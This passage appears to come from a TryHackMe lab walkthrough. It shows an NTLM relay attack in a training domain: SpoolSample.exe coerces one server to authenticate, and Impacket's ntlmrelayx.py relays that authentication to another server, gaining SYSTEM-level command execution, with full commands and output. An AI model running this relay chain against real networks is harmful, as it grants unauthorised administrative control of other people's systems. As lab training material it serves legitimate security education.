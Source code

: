 We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay. It is a C# exploit but has already been compiled for you and stored in the `C:\Tools\` directory on THMWRK1. We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox and then [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2. 

The first step is to set up the NTLM relay. On our AttackBox, we can use the following:

```shell-session
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we should specify the IP instead. With the relay listening, we can now coerce THMSERVER2 to authenticate to us. In an SSH terminal on THMWRK1, execute the following:

```shell-session
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

Your attacker IP should correspond with your tunX interface for the network. If all goes well, you should have received an authentication attempt and a relay to THMSERVER1.

```shell-session
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION
----------------

User Name SID 
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name Type SID Attributes 
====================================== ================ ============ ==================================================
BUILTIN\Administrators Alias S-1-5-32-544 Enabled by default, Enabled group, Group owner 
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label S-1-16-16384 
[...]
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt